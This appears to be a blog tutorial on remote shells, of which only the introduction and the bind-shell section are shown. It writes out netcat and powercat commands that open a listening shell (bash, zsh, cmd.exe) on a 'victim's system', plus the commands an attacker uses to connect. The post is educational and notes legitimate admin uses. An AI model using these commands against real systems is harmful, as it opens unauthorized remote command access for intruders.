 ```yaml
---
layout: post
title: Understanding, Using and Implementimng Remote Shells (Bind Shell, Reverse Shell, Encrypted Reverse Shell)
tags: reverse shell hacking exploit infosec tutorial Go code netcat
---
```

### Table of contents

- [Introduction](#introduction)
- [Bind Shell](#bind-shell)
  - [Implementing a Bind Shell in Go](#implementing-a-bind-shell-in-go)
  - [Disadvantages of Bind Shells](#disadvantages-of-bind-shells)
- [Reverse Shell](#reverse-shell)
  - [Implementing a Reverse Shell in Go](#implementing-a-reverse-shell-in-go)
- [Encrypted Shells](#encrypted-shells)
- [Further resources](#further-resources)

## Introduction

_This article gives a holistic overview on the topic of remote shells. If you only care about the Go code check out the [repository](https://github.com/TomTietz/shells)._

In general a remote shell is a method of accessing a command-line interface (CLI) on a remote computer over a network. The two basic types of remote shells are bind shells and reverse shells. Both types have legitimate uses in system administration and remote support. For example, a system administrator may use a remote shell to manage servers in a data center from a remote location. However, because of their potential for misuse, remote shells are also a common tool used by attackers in network attacks. Attackers may use remote shells to gain unauthorized access to a target system, steal data, or launch additional attacks.

## Bind Shell

A bind shell is a type of remote shell that opens a network port on the remote computer and listens for incoming connections. When an admin or attacker connects to the port, a shell is spawned that allows them to execute commands on the remote computer. In the terms of the [Client-Server-Model](https://en.wikipedia.org/wiki/Client%E2%80%93server_model) the victim would act as a server and the attacker/admin as a client.
To create a bind shell you can use the [powercat](https://github.com/besimorhino/powercat) (Windows/Powershell) or netcat (Unix/Mac) command-line tools on both the victims and the attacker's system. To start listening on the victim's system use the commands:

- `nc -vlp [port number] -e /bin/bash` (Netcat/Linux)
- `nc -vlp [port number] -e /bin/zsh` (Netcat/Mac)
- `nc.exe -vlp [port number] -e cmd.exe` (Netcat/Windows)
- `powercat -l -p [port number] -ep` (Powercat/Windows)

In order to connect to this remote shell an attacker would use one of the following commands:

- `nc -v [remote IP] [port number]` (Netcat/Linux & Netcat/Mac)
- `nc.exe -v [remote IP] [port number]` (Netcat/Windows)
- `powercat -c [remote IP] -p [port number]` (Powercat/Windows)
